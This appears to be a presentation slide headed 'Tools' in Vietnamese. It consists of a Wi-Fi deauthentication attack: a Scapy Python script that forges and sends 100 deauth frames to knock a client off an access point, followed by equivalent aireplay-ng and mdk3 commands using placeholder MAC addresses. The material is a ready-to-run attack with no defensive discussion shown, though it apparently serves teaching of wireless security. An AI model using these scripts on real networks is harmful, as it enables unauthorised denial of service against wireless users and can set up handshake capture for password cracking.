

Công cụ

from scapy.all import *

client_mac = "66:77:88:99:AA:BB"
ap_mac = "00:11:22:33:44:55"
iface = "wlan0mon"
dot11 = Dot11(
    addr1=client_mac,
    addr2=ap_mac,
    addr3=ap_mac)
deauth_frame = RadioTap()/dot11/Dot11Deauth(reason=7)

sendp(deauth_frame, iface=iface, count=100, inter=0.1)
aireplay-ng \
    --deauth 10 \
    -a 00:11:22:33:44:55 \
    -c 66:77:88:99:AA:BB \
    wlan0mon

mdk3 wlan0mon d \
    -c 6 \
    -b 00:11:22:33:44:55